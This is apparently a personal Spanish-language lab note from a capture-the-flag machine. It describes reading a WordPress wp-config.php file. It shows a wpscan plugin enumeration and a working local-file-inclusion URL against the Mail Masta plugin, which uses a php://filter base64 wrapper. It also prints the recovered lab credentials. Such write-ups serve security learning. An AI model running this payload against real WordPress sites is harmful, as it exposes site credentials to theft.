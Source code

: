 Dentro de los wordpress hay un fichero de configuración donde se guardan credenciales de los usuarios registrados; y podemos llegar a él explotando distintas vulnerabilidades, como un LFI detectando primero un plugin vulnerable con wpscan en la máquina [[MAQUINA ALL IN ONE]]
```bash
wpscan --url http://10.10.123.20/wordpress/ -e p
```
Y encontramos este que es vulnerable:
![[Pasted image 20230825163230.png]]
Tenemos un script

```bash
https://wpscan.com/vulnerability/8609
```
![[Pasted image 20230825164108.png]]
Lo probamos en el navegador y funciona:
![[Pasted image 20230825164125.png]]
Pero si queremos obtener el fichero wp-config.php, tenemos que hacer uso de un wrapper:
```bash
http://10.10.6.206/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```
![[Pasted image 20230826170029.png]]
Esto lo tenemos que decodificar ya que viene en base64:
![[Pasted image 20230826170206.png]]
Y vemos las credenciales del usuario elyana:
```bash
elyana:H@ckme@123
```
